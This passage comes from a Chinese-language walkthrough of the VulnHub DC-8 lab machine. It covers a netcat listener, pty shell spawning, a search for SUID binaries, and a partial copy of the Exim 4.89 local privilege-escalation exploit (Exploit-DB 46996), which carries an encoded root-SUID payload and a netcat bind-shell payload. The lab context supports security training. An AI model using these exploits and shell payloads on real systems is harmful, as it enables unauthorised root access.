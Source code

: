 ```php
		print "$string\n";
	}
}

?>
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/9.png)

kali 监听
```
nc -nlvp 4444
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/10.png)

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/11.png)

---

# 后期-提权

找找可以提权的东西2
```
python -c "import pty;pty.spawn('/bin/bash')"
find / -perm -u=s 2>/dev/null
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/12.png)

挨个找过去,在 exim4 里发现几个漏洞
```
exim4 --version
searchsploit -w exim 4.89
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC8/13.png)

DOS 和命令执行先 pass,测一下提权 https://www.exploit-db.com/exploits/46996

将 poc 保存到 tmp 目录下
```bash
cd /tmp

tee pri.sh <<-'EOF'
METHOD="setuid" # default method
PAYLOAD_SETUID='${run{\x2fbin\x2fsh\t-c\t\x22chown\troot\t\x2ftmp\x2fpwned\x3bchmod\t4755\t\x2ftmp\x2fpwned\x22}}@localhost'
PAYLOAD_NETCAT='${run{\x2fbin\x2fsh\t-c\t\x22nc\t-lp\t31337\t-e\t\x2fbin\x2fsh\x22}}@localhost'

# usage instructions
function usage()
{
	echo "$0 [-m METHOD]"
	exit 1
}

function exploit()
{
	exec 3<>/dev/tcp/localhost/25

	read -u 3 && echo $REPLY
	echo "helo localhost" >&3
	read -u 3 && echo $REPLY
	echo "mail from:<>" >&3
```